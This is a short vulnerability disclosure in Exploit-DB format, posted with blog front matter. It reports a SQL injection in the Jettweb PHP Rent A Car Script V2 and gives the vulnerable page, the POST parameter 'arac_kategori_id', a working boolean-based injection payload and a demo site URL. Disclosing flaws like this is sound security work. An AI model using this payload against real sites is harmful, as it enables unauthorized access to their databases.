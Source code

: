 ```yaml
---
layout:     post
title:      "Jettweb Rent A Car V2 - SQL Injection"
date:       2019-03-26 12:09
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Jettweb PHP Hazır Rent A Car Sitesi Scripti V2 - 'arac_kategori_id' SQL Injection
# Date: 28.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://jettweb.net/u-4-php-hazir-rent-a-car-sitesi-scripti-v2.html
# Demo Site: http://rentv2.proemlaksitesi.net/
# Version: V2
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/fiyat-goster.html
Vulnerable Parameter: arac_kategori_id (POST)
Payload: arac_kategori_id=-1' OR 3*2*1=6 AND 000224=000224 --
